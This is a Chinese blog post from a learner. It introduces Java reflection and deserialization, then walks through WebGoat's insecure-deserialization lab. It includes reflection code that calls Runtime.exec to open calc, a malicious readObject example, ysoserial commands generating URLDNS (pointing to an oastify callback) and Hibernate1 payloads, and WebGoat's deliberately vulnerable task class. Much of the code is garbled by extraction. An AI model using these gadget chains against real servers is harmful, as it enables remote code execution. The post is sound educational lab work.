

0x01 前言
如今CTF比赛中难题或者是压轴题都涉及到Java知识，可见Java安全的火爆程度，如今看了小迪的涉及到Java反序列化的课程，也想着是时候初步学习一下了。故此文章用来入门Java反序列化，后续遇到新知识在写吧。
0x02 Java反射
跟着师傅的路线先了解一下Java反射
Java正射
例子，这是一个person类，有成员变量以及函数：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 package 反射;public class Person {private String name;private int age;public String getName () {return name;public void setName (String name) {this .name = name;public int getAge () {return age;public void setAge (int age) {this .age = age;public void show () {"hello" );
我们在编写代码时，当需要使用到某一个类的时候，都会先了解这个类是做什么的。然后实例化这个类，接着用实例化好的对象进行操作，这就是正射。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 package 反射;import 反射.Person;public class 正射 {public static void main (String[] args) {Person person1 = new Person ();"小明" );18 );Class c = person1.getClass();
Java反射机制
Java反射(Reflection)是Java非常重要的动态特性，通过使用反射我们不仅可以获取到任何类的成员方法(Methods)、成员变量(Fields)、构造方法(Constructors)等信息，还可以动态创建Java类实例、调用任意的类方法、修改任意的类成员变量值等。Java反射机制是Java语言的动态性的重要体现，也是Java的各种框架底层实现的灵魂。
Java 反射组成相关的类
反射机制相关操作一般位于java.lang.reflect包中，而java反射机制组成需要重点注意以下的类：
java.lang.Class：类对象;
java.lang.reflect.Constructor：类的构造器对象;
java.lang.reflect.Field：类的属性对象;
java.lang.reflect.Method：类的方法对象;
反射调用方法：
获取类的方法：forName
实例化类对象的方法：newInstance
获取函数的方法：getMethod
执行函数的方法：invoke
获取Class对象
Class 类是描述类的类，作用是运行时提供或获得某个对象的类型信息。
获取类的实例有以下的三种方法：
如果上下⽂中存在某个类的实例 obj，那么我们可以通过 obj.getClass 来获取它的类。
1 2 TestReflection testReflection = new TestReflection ();.getClass ();
如果你已经加载了某个类，只是想获取到它的 java.lang.Class 对象，那么就直接拿它的 class 属性即可。这个⽅法其实不属于反射。
1 Class class2 = TestReflection.class ;
方法三、Class.forName(String className)：动态加载类
如果你知道某个类的名字，想获取到这个类，就可以使⽤ forName 来获取
1 Class class3 = Class.forName ("reflection.TestReflection");
我们可以写个简单的示例代码，分别利用这三种方法获取当前类Class对象的当前类名。
此外还有一种获取类class的方法：classLoader.loadClass("com.anbai.sec.classloader.TestReflection");
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 package 反射;import 反射.Person;public class Reflect {public static void main (String[] args) throws Exception{Class c1 = Person.class;Person person = new Person ();Class c2 = person.getClass();Class c3 = Class.forName("反射.Person" );
我们一般使用第三种通过Class.forName方法去动态加载类。且使用forName就不需要import导入其他类，可以加载我们任意的类。
而使用类.class属性，需要导入类的包，依赖性太强，在大型项目中容易抛出编译错误；
而使用实例化对象的getClass()方法，需要本身创建一个对象，本身就没有了使用反射机制意义。
所以我们在获取class对象中，一般使用Class.forName方法去获取。
反射常用函数
getMethod()方法获取的是当前类中所有公共(public)方法。包括从父类里继承来的方法。
getDeclaredMethod()系列方法获取的是当前类中“声明”的方法，包括private，protected 和public，不包含从父类继承来的方法。
getConstructor()方法获取的是当前类声明为公共(public)构造函数实例。
getDeclaredConstructor()方法获取的是当前类声明的构造函数实例，包括private， protected和public。
setAccessible()在获取到私有方法或构造方法后，使用 setAccessible(true)，改变其作用域，这样即使是私有的属性，方法，构造函数也都可以访问调用了
newInstance()将获取到的对象实例化。调用的是这个类的无参构造函数。使用 newInstance 不成功的话可能是因为：①、你使用的类没有无参构造函数，②、你使用的类构造函数是私有的。
invoke()调用包装在当前Method对象中的方法。
通过反射创建类对象
通过反射创建类对象主要有两种方式：通过 Class 对象的 newInstance() 方法、通过 Constructor 对象的 newInstance() 方法。
第一种：通过 Class 对象的 newInstance() 方法。
1 2 Class clz = Apple.class;Apple apple = (Apple)clz.newInstance();
第二种：通过 Constructor 对象的 newInstance() 方法
1 2 3 Class clz = Apple.class;Constructor constructor = clz.getConstructor();Apple apple = (Apple)constructor.newInstance();
通过 Constructor 对象创建类对象可以选择特定构造方法，而通过 Class 对象则只能使用默认的无参数构造方法。下面的代码就调用了一个有参数的构造方法进行了类对象的初始化。
1 2 3 Class clz = Apple.class;Constructor constructor = clz.getConstructor(String.class, int .class);Apple apple = (Apple)constructor.newInstance("红富士" , 15 );
newInstance()
该方法属于 Class 类，执行后返回一个 Object，可以利用这个方法来实例化对应的类，作用就是调用这个类的无参构造函数。但要求要实例化的类必须要有无参构造函数，并且这个构造函数不是私有的。
Runtime类的分析
进入 Runtime 类中可以看到
这里可以看到Runtime类为单例模式，这意味着我们只能通过getRuntime方法来获取Runtime对象。同时注意 getRuntime 对象是静态方法，即可以直接通过 类名.方法名 的方法调用。
java执行命令
1 2 Runtime run = Runtime.getRuntime();"calc" );
getMethod()
该方法可获取一个 Method 对象，即获取类中的方法，通常要和 invoke() 方法一起使用，这里重点关注下它的各项参数
第一个参数name是所要获取方法的方法名，第二个参数parameterTypes是所获得的方法中参数的类型，parameterTypes 是个 Class 类型的数组，用的是java的可变长参数 的写法，<?> 是泛型的表示，这里不探讨。
即 参数类型 Class<?>... parameterTypes 其实等价于 Class<?>[] parameterTypes 。传递的对应参数是所获取方法的对应的参数类型。比如 Runtime 中的 exec(String command) 函数，获取它就是
1 2 Class clazz = Class.forName("java.lang.Runtime" );Method cmd = clazz.getMethod("exec" , String.class);
Invoke()
invoke() 方法用于执行 getMethod 获取的方法，看看它的相关参数
第一个参数是函数所在的类对象，第二个是所执行的函数的对象参数：依旧拿 exec(String command) 方法来说
1 2 3 4 Runtime run = Runtime.getRuntime();Class clazz = Class.forName("java.lang.Runtime" );Method cmd = clazz.getMethod("exec" , String.class);"calc" );
如果执行的方法是静态方法，那么 invoke 的第一个 obj 参数将被忽略
比如我们要执行上面所说的 Runtime 类中的静态方法 getRuntime() 去获取对象
1 2 3 4 Class clazz = Class.forName("java.lang.Runtime" );Runtime run = (Runtime) clazz.getMethod("getRuntime" ).invoke(null );"calc" );
等价于 Runtime.getRuntime().exec("calc");
反射java.lang.Runtime
java.lang.Runtime因为有一个exec方法可以执行本地命令，所以在很多的payload中我们都能看到反射调用Runtime类来执行本地系统命令，通过学习如何反射Runtime类也能让我们理解反射的一些基础用法。
不使用反射执行本地命令代码片段：
1 2 "whoami" ).getInputStream(), "UTF-8" ));
如上可以看到，我们可以使用一行代码完成本地命令执行操作，但是如果使用反射就会比较麻烦了，我们不得不需要间接性的调用Runtime的exec方法。
反射Runtime执行本地命令代码片段：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 Class runtimeClass1 = Class.forName("java.lang.Runtime" );Constructor constructor = runtimeClass1.getDeclaredConstructor();true );Object runtimeInstance = constructor.newInstance();Method runtimeMethod = runtimeClass1.getMethod("exec" , String.class);Process process = (Process) runtimeMethod.invoke(runtimeInstance, cmd);InputStream in = process.getInputStream();"UTF-8" ));
反射调用Runtime实现本地命令执行的流程如下：
反射获取Runtime类对象(Class.forName("java.lang.Runtime"))。
使用Runtime类的Class对象获取Runtime类的无参数构造方法(getDeclaredConstructor())，因为Runtime的构造方法是private的我们无法直接调用，所以我们需要通过反射去修改方法的访问权限(constructor.setAccessible(true))。
获取Runtime类的exec(String)方法(runtimeClass1.getMethod("exec", String.class);)。
调用exec(String)方法(runtimeMethod.invoke(runtimeInstance, cmd))。
上面的代码每一步都写了非常清晰的注释，接下来我们将进一步深入的了解下每一步具体含义。
Java反射到命令执行
学习ava反射机制，其实我们更关心如何利用Java反射实现命令执行。下面是Java反射命令执行的几种情况
Demo 1
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 package 反射;public class TrainPrint {"Empty block initial %s\n" , this .getClass());static {"Static initial %s\n" , TrainPrint.class);try {Runtime rt = Runtime.getRuntime();"calc" };Process pc = rt.exec(commands);catch (Exception e) {public TrainPrint () {"Initial %s\n" , this .getClass());
1 2 3 4 5 6 7 8 9 10 11 12 package 反射;import 反射.TrainPrint;public class exp {public static void main (String[] args) throws Exception {"反射.TrainPrint" );public static void ref (String name) throws Exception {
可以看到在TrainPrint类中，定义了一个实例化函数块、静态初始化块以及构造函数；在exp类中，则是定义了一个main函数来调用ref函数。
在ref函数中，对传入的name参数，会用forName函数去加载并初始化name对应的类，而在这里也就是“反射.TrainPrint”类，而加载该类之后，回去调用类中对应的静态初始化块函数，也就是上述执行exec(“calc”)代码，最终弹出计算器。
而这里呢，如果我们对name可控，那就可以构造恶意类进行攻击了
Demo 2
下面是两种通过反射java.lang.Runtime来达到命令执行的方式。
由于java.lang.Runtime类的构造函数是私有的，因此不能直接使用 newInstance() 创建一个实例。那为什么这个类的构造函数会是私有的呢？
这涉及到一个“单例模式”的概念：
单例模式（Singleton）的目的是为了保证在一个进程中，某个类有且仅有一个实例。因为这个类只有一个实例，因此，自然不能让调用方使用new Xyz()来创建实例了。所以，单例的构造方法必须是private，这样就防止了调用方自己创建实例，但是在类的内部，是可以用一个静态字段来引用唯一创建的实例的。举个例子：我们在链接数据库时只有最开始链接一次，而不是用一次链接一次，如果这样的话，资源消耗太大了。因此可以将类的构造函数设为私有，再通过静态方法来获取。
由于java.lang.Runtime使用了单例模式，我们可以通过Runtime.getRuntime()来获取Runtime对象。
有两种方法进行反射命令执行：
getMethod
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 package RCE;import java.lang.reflect.InvocationTargetException;import java.lang.reflect.Method;public class Reflect {public static void main (String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException {"java.lang.Runtime" );Method execMethod = clazz.getMethod("exec" , String.class);Method getRuntimeMethod = clazz.getMethod("getRuntime" );Object runtime = getRuntimeMethod.invoke(clazz);"calc.exe" );
这里由于我们无法直接实例化Runtime类，因此只能靠Java反射机制：
首先定义了一个Class对象clazz，然后通过forName方法，获取到了Runtime类的Class对象（也就是能得到Runtime类中的数据及方法）。随后利用getMethod方法调用了clazz（即Runtime类）中的exec方法，为后续命令执行做准备。
然后又通过getMethod获取到Runtime类中的getRuntime方法，接着通过invoke进行调用该方法执行：Runtime.getRuntime成功获取到Runtime类的对象，并赋值给runtime实例。
最终用invoke方法调用了runtime实例的exec方法，并传入相应参数，成功弹出计算器。
getDeclaredConstructor
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 package RCE;import java.io.InputStream;import java.lang.reflect.Constructor;import java.lang.reflect.InvocationTargetException;import java.lang.reflect.Method;public class Reflect {public static void main (String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException, InstantiationException {Class runtimeClass1 = Class.forName("java.lang.Runtime" );Constructor constructor = runtimeClass1.getDeclaredConstructor();true );Object runtime = constructor.newInstance();Method runtimeMethod = runtimeClass1.getMethod("exec" , String.class);"calc" );
首先通过forName获取Runtime的Class类对象
1 Class对象提供了关于类或接口的结构和行为的信息，包括类的名称、父类、实现的接口、字段、方法等。
需要注意，这里的class对象并不能直接调用某种方法，还需要利用反射机制才可
之后利用getDeclaredConstructor函数获取到了Runtime类中的私有构造函数，接着设置setAccessible(true)使得我们可以调用其私有构造函数。
接着利用constructor的newInstance就可以实例化一个Runtime类对象了，之后通过Class对象调用getMethod方法获取到Runtime类的exec方法。
最后利用invoke执行，弹出计算器。
注意：这里我用的是jdk1.8，如果是jdk9以上，对于这种反射机制会爆出如下错误：
1 Unable to make private java.lang .Runtime () accessible: module java.base does not "opens java.lang" to unnamed module...
解决办法可参考：[Getting java.lang.reflect.InaccessibleObjectException when migrated to Java 17 ](https://community.temporal.io/t/getting-java-lang-reflect-inaccessibleobjectexception-when-migrated-to-java-17/6168 )
但这里我就换了个低版本，懒得解决了
getConstructor和getDeclaredConstructor
这两个方法均用于获取类的构造方法，后者可以获取私有的构造方法
前面利用 Class 中的 newInstance 方法获取一个类对象只能是对应无参的构造函数来实例化类，而利用这两个函数可以调用类的有参构造函数来实例化一个对象。
这里以 getConstructor 为例，getDeclaredConstructor 用法相同只是后续要加个 setAccessible(true)
该方法的参数是获取到的构造方法中对应参数的数据类型，该方法返回的 Constructor 对象中有个 newInstance 方法，看看这个 newInstance 方法的参数
newInstance 方法的参数是调用的构造方法对应的参数。比如我们利用 ProcessBuilder 类来执行命令
1 new ProcessBuilder ("calc" ).start();
注意这里用到的 ProcessBuilder 重载的构造方法
1 String... command` 等价于 `String[] command
使用反射构造
1 2 Class clazz = Class.forName("java.lang.ProcessBuilder" );new String [][] {{"calc" }})).start();
简单解释下这两个参数 String[].class 是 ProcessBuilder 类构造函数的参数类型，newInstance 参数也是可变长参数，等价于 Object[] initargs ，即套两层数组 new String[][] {{"calc"}}
上述用到了强制类型转换，将上述payload改改，用完全反射的方法
1 2 3 Class clazz = Class.forName("java.lang.ProcessBuilder" );Constructor m = clazz.getConstructor(String[].class);"start" ).invoke(m.newInstance(new String [][] {{"calc" }}));
写成一行
1 Class.forName("java.lang.ProcessBuilder" ).getMethod("start" ).invoke(Class.forName("java.lang.ProcessBuilder" ).getConstructor(String[].class).newInstance(new String [][] {{"calc" }}));
0x02 什么是Java序列化与反序列化
在编程语言的世界当中,常常有这样的需求,我们需要将本地已经实例化 的某个对象 ,通过网络 传递到其他机器当中.为了满足这种需求,就有了所谓的序列化和反序列化
1 2 3 Java:1 . 序列化：将Java对象压缩成字节序列或字节流的形式2 . 反序列化：将字节序列或字节流转化成Java对象
对象的序列化主要有两种用途：
把对象的字节序列永久地保存到硬盘上，通常存放在一个文件中；（持久化对象）
在网络上传送对象的字节序列。（网络传输对象）
0x03 漏洞成因
只要服务端反序列化数据，客户端传递类的readObject中代码会自动执行，给予攻击者在服务器上运行代码的能力。
3.1 可能的形式
入口类的readObject直接调用危险方法
入口类参数中包含可控类，该类有危险方法，readObject时调用
入口类参数中包含可控类，该类又调用其他有危险方法的类，readObject时调用
比如类型定义为Object，调用equals/hashcode/toString相同类型 同名函数
构造函数/静态代码块等类加载时隐式执行
3.2 JAVA原生反序列化漏洞成因
Java中间件通常通过网络接收客户端发送的序列化数据，而在服务端对序列化数据进行反序列化时，会调用被序列化对象的readObject()方法。
而在Java中如果重写了某个类的方法，就会优先调用经过修改后的方法。
如果某个对象重写了readObject()方法，且在方法中能够执行任意代码，那服务端在进行反序列化时，也会执行相应代码
简单来说：攻击者通过构造恶意输入，让反序列化产生非预期的对象，在此过程中执行构造的恶意代码。
0x04 Java反序列化基础
不同于PHP序列化是将对象转换成了字符串，Java序列化是将对象转换为了字节流，且序列化与反序列化是一种思想，并不局限于其实现形式。如：
JAVA内置的writeObject()/readObject()
JAVA内置的XMLDecoder()/XMLEncoder
XStreamSnakeYamlFastJsonJackson
出现过漏洞的组件：
Apache Shiro
Apache Axis
Weblogic
Jboss
Fastjson
看一下Java中执行系统命令的方法：
1 2 3 4 5 public class Main {public static void main (String[] args) throws Exception{"calc.exe" );
1 2 3 4 5 6 Java中执行系统命令使用java.lang.Runtime类的exec方法：
注意:这里的命令执行,并不是使用系统中的bash或是cmd进行的系统命令执行，而是使用JAVA本身，所以反弹shell的重定向符在JAVA中并不支持
我们来细分一下上述执行命令的步骤：
1 2 3 4 5 6 public class Main {public static void main (String[] args) throws Exception{Runtime runtime = Runtime.getruntime();"calc.exe" );
那么相应的反射的代码如下
1 2 3 4 5 6 7 8 9 import java.lang.reflect.Method;public class ExecTest {public static void main (String[] args) throws Exception{Object runtime = Class.forName("java.lang.Runtime" ).getMethod("getRuntime" , new Class []{}).invoke(null );"java.lang.Runtime" ).getMethod("exec" ,String.class).invoke(runtime,"calc.exe" );
getMethod(方法名, 方法类型)invoke(某个对象实例， 传入参数)
这里第一句Object runtime = Class.forName("java.lang.Runtime")的作用等价于 Object runtime = Runtime.getRuntime()
目的是获取一个对象实例好被下一个invoke调用
第二句Class.forName("java.lang.Runtime").xxxx的作用就是调用上一步生成的runtime实例的exec方法，并将"calc.exe"参数传入exec()方法
接下来编写Java反序列化过程：
在Java当中，如果一个类需要被序列化和反序列化 ，需要实现java.io.Serializable接口
ObjectOutputStream类的writeObject(Object obj)方法，将对象序列化成字符串数据
ObjectInputStream类的readObject(Object obj)方法，将字符串数据反序列化成对象
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 import java.io.*;public class Serialize {public static void main (String[] args) throws Exception{String name = "hybcx" ;FileOutputStream fileOutputStream = new FileOutputStream ("serialize1.txt" );ObjectOutputStream objectOutputStream = new ObjectOutputStream (fileOutputStream);FileInputStream fileInputStream = new FileInputStream ("serialize1.txt" );ObjectInputStream objectInputStream = new ObjectInputStream (fileInputStream);Object result = objectInputStream.readObject();
我们用010编辑器打开上述生成的文件看看
可见上述十六进制是以aced开头的，这里说一下Java序列化特性：
1 2 一段数据以 rO0AB 开头，你基本可以确定这串就是 JAVA 序列化 base64 加密的数据。
且0005 为 Java 对象序列化的版本号
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 import java.io.FileInputStream;import java.io.FileOutputStream;import java.io.ObjectInputStream;import java.io.ObjectOutputStream;public class Serialize2 {public static void main (String[] args) throws Exception{Object runtime = Class.forName("java.lang.Runtime" ).getMethod("getRuntime" , new Class []{}).invoke(null );Object evil = Class.forName("java.lang.Runtime" ).getMethod("exec" , String.class).invoke(runtime, "calc.exe" );FileOutputStream fileOutputStream = new FileOutputStream ("serialize2.txt" );ObjectOutputStream objectOutputStream = new ObjectOutputStream (fileOutputStream);FileInputStream fileInputStream = new FileInputStream ("serialize2.txt" );ObjectInputStream objectInputStream = new ObjectInputStream (fileInputStream);Object result = objectInputStream.readObject();
这里如果我们直接运行会发现报错，但计算器是成功弹出的，这是因为上述Runtime类没有继承Serializable接口，所以导致不会成功，它弹是在写Object的时候弹出来的
我们如果跟进java.io.Serializable接口会发现如下图，是一个空类，有位师傅这样解释：这说明起作用只是为了在反序列化和序列化中，做一个类型判断。为什么呢？因为遵循非必要原则，不需要反序列化的类就可以不用反序列化了。
4.1 如何序列化类
Java原生实现了一套序列化的机制，它让我们不需要额外编写代码，只需要实现java.io.Serializable接口，并调用ObjectOutputStream类的writeObject方法即可
Person类实现：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 package serializable;import java.io.IOException;import java.io.ObjectInputStream;import java.io.Serializable;public class Person implements Serializable {private static final long serialVersionUID = 1L ;public String name;private int age;public Person () {public Person (String name, int age) {this .name = name;this .age = age;@Override public String toString () {return "Person{" + "name='" + name + '\'' + ",age=" + age + '}' ;private void readObject (ObjectInputStream objectInputStream) throws IOException, ClassNotFoundException {"calc.exe" );
Serializable类实现：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 package serializable;import java.io.FileOutputStream;import java.io.IOException;import java.io.ObjectOutputStream;public class Serializable {public static void serializable (Object person) throws IOException {ObjectOutputStream obj = new ObjectOutputStream (new FileOutputStream ("ser.ser" ));public static void main (String[] args) throws Exception{Person person = new Person ("hybcx" , 18 );
跟进writeObject函数，阅读其注释可知：
在反序列化的过程当中，是针对对象本身，而非针对类的，因为静态属性是不参与序列化和反序列化的过程的。另外，如果属性本身声明了transient关键字，也会被忽略。但是如果某对象继承了A类，那么A类当中的对象的对象属性也是会被序列化和反序列化的(前提是A类也实现了java.io.Serializable接口)
4.2 如何反序列化类
序列化使用ObjectOutPutStream类，反序列化使用的则是ObjectInputStream类的readObject方法。我们在之前重写了readObject方法，所以会执行命令
Unserializable类实现：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 package serializable;import java.io.FileInputStream;import java.io.IOException;import java.io.ObjectInputStream;public class Unserializable {public static Object unserialize (String Filename) throws IOException, ClassNotFoundException {ObjectInputStream ins = new ObjectInputStream ((new FileInputStream (Filename)));Object obj = ins.readObject();return obj;public static void main (String[] args) throws Exception {Person person = (Person) unserialize("ser.ser" );
其实反序列化的实现就是序列化的逆过程,会根据序列化读出数据的类型,进行相应的处理
4.3 serialVersionUID
序列化和反序列化可以理解为压缩和解压缩，但是压缩之所以能被解压缩的前提是因为他俩的协议是一样的。如果压缩是以四个字节为一个单位，而解压缩以八个字节为一个单位，就会乱套
同样在Java中与协议相对的概念为：serialVersionUID
当serialVersionUID不一致时，反序列化会直接抛出异常
比如设置为1L时序列化，修改为2L时反序列化，则会抛出异常
如上图，这里我们修改为2L，如下图发生报错，
我们跟进上图报错第二行的596那一行，发现下图情况：代码进行了判断suid != osc.getSerialVersionUID()如果两次UID不相同，则抛出异常
serializable.Person; local class incompatible: stream classdesc serialVersionUID = 1, local class serialVersionUID = 2
0x08 Java反序列化实践
学了上述那么多前置知识，但我发现那些文章还有大把没讲完。。。。太多了需要慢慢啃，这里我就先复现一下看小迪课程的一些例子吧
8.1 序列化和反序列化过程
首先他这里给了一个简单序列化和反序列化代码
Main类实现：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 package SerialTest;import java.io.Serializable;public class Main {public static void main (String[] args) {class Person implements Serializable {private String name;private int age;private String sex;transient private int stuId;private static int count = 100 ;public Person (String name, int age, String sex, int stuId) {this .name = name;this .age = age;this .sex = sex;this .stuId = stuId;@Override public String toString () {return String.format("Person{name: %s, age: %d, sex: %s, stuId: %d, count: %d}\n" ,
SerializableTest类实现：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 package SerialTest;import java.io.*;public class SerializableTest {public static void main (String[] args) throws Exception {Person person = deserialPerson();private static void serialPerson () throws IOException {Person person = new Person ("xiaodi" , 28 , "男" , 101 );ObjectOutputStream oos = new ObjectOutputStream (new FileOutputStream (new File ("person.txt" ))"person 对象序列化成功！" );private static Person deserialPerson () throws Exception {ObjectInputStream ois = new ObjectInputStream (new FileInputStream (new File ("hacker.txt" ))Person person = (Person)ois.readObject();"person 对象反序列化成功！" );return person;
我们运行之后如下图
同样的aced 0005开头
8.2 ysoserial工具使用
看了有几篇文章利用该工具的jar包进行一些常见Java反序列化漏洞的链子分析…但对于看Java代码有些许困难的我，还是先学会如何在实战中使用吧
项目地址：https://github.com/frohoff/ysoserial --唉，要是这个项目持续更新就好了
这里的练习就用Java漏洞靶场webgoat来玩玩，不过tm搭建了半天，这新版本不会启动。。。。还是建议用8.2.2的版本吧
webgoat-Insecure Deserialization
找到相应关卡这里让我们更改序列化数据，让页面响应延迟5秒即可成功，那我们先可以验证一下这里是否存在反序列化注入点。
在此之前我们观察到上述序列化对象时r00ab开头，这说明是Java序列化数据经过base加密的结果，这里我们可以看一下源码进行验证
我们在上述输入1提交，抓一下包看一下Java对应的实现接口，如上图，我们可以发现接口地址为InsecureDeserialization/task，我们到其Java项目中找一下
如上图，我们可以看到该类在处理传入的token参数时，进行了base64的解密，这意味着我们如果构造了Java序列化恶意数据之后还需要进行base64的加密
这里我们用一下ysoserial工具，在这里作用大概就是可以凭借右侧依赖（对应的Java反序列化漏洞点）直接根据用户输入的恶意数据生成依赖所对应的Java反序列化漏洞的序列化数据。
这里我们用到的是上述命令URLDNS，我们利用dnslog平台回显来判断是否存在反序列化漏洞
1 java -jar ysoserial-all.jar URLDNS "http://wqqly89hgl2qwlw44cadp2xdo4uvin6c.oastify.com" > urldns.txt
执行完后我们打开发现是aced开头，base64编码一下
1 2 3 4 5 6 7 import base64open ("urldns.txt" ,"rb" )print (ba)
这里不知为何那些dnslog平台都崩了打不开，因此用了bp自带的进行了验证
点击上述copy复制后输入相关命令，最后将得到的文件数据进行一次base644加密输出
将得到的数据输入至下列输入框中，最后看到上图的bp中显示了最近一次的访问，验证成功
接下来利用执行系统命令来验证一次
1 java -Dhibernate5 -cp hibernate-core-5.4 .28 .Final.jar;ysoserial-0.0 .6 -SNAPSHOT-all.jar ysoserial.GeneratePayload Hibernate1 "calc.exe" > 1. bin
这里的hibernate-core-5.4.9.Final.jar我们可以看一下这里
如上图可以看到这里是支持Hibernate的，因此我们需要在webgoat的jar包中找到相关的
如上图我们找到了hibernate-core-5.4.28.Final.jar一般都是找core这个包的，这是插件的核心
如图执行成功后我们打开x.bin看一下，如下图可以看到是以aced开头的，接下来用个Python脚本编码一下
这里编译好直接输入至输入框中即可，但这里不知道为何我弹不出计算器
这里先尝试延迟5秒吧，这里由于是windows环境，就是ping来实现
InsecureDeserializationTask.java
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 package org.owasp.webgoat.deserialization;import org.dummy.insecure.framework.VulnerableTaskHolder;import org.owasp.webgoat.assignments.AssignmentEndpoint;import org.owasp.webgoat.assignments.AssignmentHints;import org.owasp.webgoat.assignments.AttackResult;import org.springframework.web.bind.annotation.PostMapping;import org.springframework.web.bind.annotation.RequestParam;import org.springframework.web.bind.annotation.ResponseBody;import org.springframework.web.bind.annotation.RestController;import java.io.ByteArrayInputStream;import java.io.IOException;import java.io.InvalidClassException;import java.io.ObjectInputStream;import java.util.Base64;@RestController @AssignmentHints({"insecure-deserialization.hints.1", "insecure-deserialization.hints.2", "insecure-deserialization.hints.3"}) public class InsecureDeserializationTask extends AssignmentEndpoint {@PostMapping("/InsecureDeserialization/task") @ResponseBody public AttackResult completed (@RequestParam String token) throws IOException {long before;long after;int delay;'-' , '+' ).replace('_' , '/' );try (ObjectInputStream ois = new ObjectInputStream (new ByteArrayInputStream (Base64.getDecoder().decode(b64token)))) {Object o = ois.readObject();if (!(o instanceof VulnerableTaskHolder)) {if (o instanceof String) {return failed(this ).feedback("insecure-deserialization.stringobject" ).build();return failed(this ).feedback("insecure-deserialization.wrongobject" ).build();catch (InvalidClassException e) {return failed(this ).feedback("insecure-deserialization.invalidversion" ).build();catch (IllegalArgumentException e) {return failed(this ).feedback("insecure-deserialization.expired" ).build();catch (Exception e) {return failed(this ).feedback("insecure-deserialization.invalidversion" ).build();int ) (after - before);if (delay > 7000 ) {return failed(this ).build();if (delay < 3000 ) {return failed(this ).build();return success(this ).build();
这里可以看到，程序对post传入的token进行了base64的解码，并用replace做了一定过滤，接着Object o = ois.readObject();送入readobject进行反序列化。如果反序列化的对象o不是VulnerableTaskHolder类的话就会抛出错误，接着最后判断delay的大小，我们需要控制在7-3秒内
我们转到VulnerableTaskHolder类的实现，如下列代码，
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 package org.dummy.insecure.framework;import lombok.extern.slf4j.Slf4j;import java.io.BufferedReader;import java.io.IOException;import java.io.InputStreamReader;import java.io.ObjectInputStream;import java.io.Serializable;import java.time.LocalDateTime;@Slf4j public class VulnerableTaskHolder implements Serializable {private static final long serialVersionUID = 2 ;private String taskName;private String taskAction;private LocalDateTime requestedExecutionTime;public VulnerableTaskHolder (String taskName, String taskAction) {super ();this .taskName = taskName;this .taskAction = taskAction;this .requestedExecutionTime = LocalDateTime.now();@Override public String toString () {return "VulnerableTaskHolder [taskName=" + taskName + ", taskAction=" + taskAction + ", requestedExecutionTime=" "]" ;private void readObject ( ObjectInputStream stream ) throws Exception {"restoring task: {}" , taskName);"restoring time: {}" , requestedExecutionTime);if (requestedExecutionTime!=null && 10 ))this .toString());throw new IllegalArgumentException ("outdated" );if ((taskAction.startsWith("sleep" )||taskAction.startsWith("ping" ))22 ) {"about to execute: {}" , taskAction);try {Process p = Runtime.getRuntime().exec(taskAction);BufferedReader in = new BufferedReader (new InputStreamReader (p.getInputStream()));String line = null ;while ((line = in.readLine()) != null ) {catch (IOException e) {"IO Exception" , e);
这里代码中重写了readobject函数，并且通过条件语句限制了只能使用sleep或ping在linux与windows环境下实现延迟效果，最后通过Process p = Runtime.getRuntime().exec(taskAction);来触发命令执行。
SerializationHelper里面提供了一些工具类
